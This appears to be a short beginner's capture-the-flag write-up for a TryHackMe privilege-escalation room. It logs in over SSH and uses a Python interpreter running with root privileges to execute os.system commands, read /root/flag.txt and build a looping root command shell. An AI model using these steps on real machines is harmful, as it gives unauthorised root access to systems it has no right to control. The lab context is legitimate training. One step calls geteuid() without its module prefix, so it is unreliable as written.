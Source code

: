 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
## This is my first Write-up but a simple one to preform.


### 1. lets get in the machine and open python 

SSH Credentials - user:password

so there is a "trick" to gain an easy shell with the help of python
first we have to see if python is installed and has root premonition so we could exploit it
 
$ python
```
>>>
```

great! we got python installed, lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders.
but for us, its just a convenient way to get a shell.

we only need to init one library for OS commands
```python
>>> import os
```
now, lets see if we are root. (euid = 0:root)
```python
>>> geteuid()
```
> 0

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

```python
os.system("whoami")
```

>root
0


note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

### 2. Get The Flag!
to get the flag we will do the following

```python
os.system("cat /root/flag.txt")
```
> THM{3asy_f14g_1m40}


 

___
# bonus:

do you want to make your life easyer? (that's what python ment for)
 

```python
def A(i):
    os.system(i)
```

press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

```
A('whoami')
```
>root
0

# Even better:

```
while True:
    i = input('CMD: ')
    os.system(i)
press return key (enter)
```
> CMD:
```
CMD: whoami
```
>root
0


now we got ourself a loop and created our-self an easy root shell!

# Hye! if you done the bonus why not get in to a python course?